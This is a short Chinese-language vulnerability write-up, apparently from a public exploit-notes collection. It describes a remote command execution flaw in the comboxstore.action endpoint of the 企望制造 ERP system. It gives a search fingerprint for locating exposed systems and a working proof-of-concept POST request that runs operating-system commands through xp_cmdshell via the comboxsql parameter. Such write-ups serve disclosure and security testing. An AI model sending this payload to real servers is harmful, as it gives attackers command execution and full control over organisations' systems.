


# 企望制造 ERP comboxstore.action 远程命令执行漏洞

## 漏洞描述

企望制造 ERP comboxstore.action接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

<a-checkbox checked>企望制造 ERP </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="企望制造ERP系统"</a-checkbox></br>

## 漏洞复现

登陆页面



验证POC

```php
POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

comboxsql=exec%20xp_cmdshell%20'type%20C:\Windows\Win.ini'
```

